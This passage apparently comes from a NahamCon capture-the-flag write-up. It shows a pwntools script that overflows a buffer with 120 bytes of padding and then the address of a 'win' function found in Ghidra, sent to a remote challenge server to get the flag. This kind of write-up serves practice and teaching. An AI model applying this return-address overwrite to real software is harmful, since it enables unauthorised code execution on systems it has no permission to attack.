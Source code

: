 In Ghidra, we also see that there is a win function that we have to call. Its address is 0x00401215

![](./assets/pwn/win.png)

Running this script will output the flag

```python
from pwn import *

payload = "A"*(112+8) + "\x15\x12\x40\x00\x00\x00\x00\x00"

conn = remote('challenge.nahamcon.com', 30494)
conn.sendline(payload)
conn.interactive()
```

![](./assets/pwn/flag.png)

***
# Cryptography
